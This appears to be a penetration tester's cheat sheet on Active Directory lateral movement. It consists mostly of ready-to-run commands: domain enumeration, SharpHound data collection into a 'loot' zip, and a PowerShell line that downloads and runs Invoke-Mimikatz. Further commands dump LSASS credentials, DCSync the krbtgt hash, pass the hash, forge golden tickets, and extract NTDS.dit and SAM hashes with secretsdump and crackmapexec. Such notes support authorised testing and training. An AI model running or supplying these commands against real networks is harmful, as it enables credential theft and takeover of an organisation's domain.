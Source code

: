 # Lateral Movement  
## Contents 
- [Lateral Movement  ](#lateral-movement)
  * [Contents ](#contents)
  * [What to Look For ](#what-to-look-for)
  * [Quick Commands  ](#quick-commands)
    + [PowerShell Active Directory Module (only on DC by default)](#powershell-active-directory-module-only-on-dc-by-default)
  * [Post Exploitation Enumeration      ](#post-exploitation-enumeration)
    + [PowerView   ](#powerview)
  * [Bloodhound    ](#bloodhound)
  * [Mimikatz  ](#mimikatz)
  * [AD Password Files  ](#ad-password-files)
  * [Crackmapexec     ](#crackmapexec)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?    
Check user home folders (including command history, browser history, zipped archives)   

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
         
### PowerShell Active Directory Module (only on DC by default)
List all hosts on the domain      

    Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*      
    
    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        

Or use Mimikatz to extract hashes from NTDS.dit    

mimikatz # lsadump::dcsync /domain:domain.local /all /csv          

## Crackmapexec     
Dump SAM using adminc creds   

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --sam   #dump SAM - needs admin creds      
Dump LSA secrets     

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --lsa   #dump lsa secrets - need admin on domain controller          
Dump NTDS.dit using secretsdump - needs admin creds on a DC:        

    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds     #dump all hashes    
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds --users         
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds vss     #uses volume shadow copy service to dump hashes     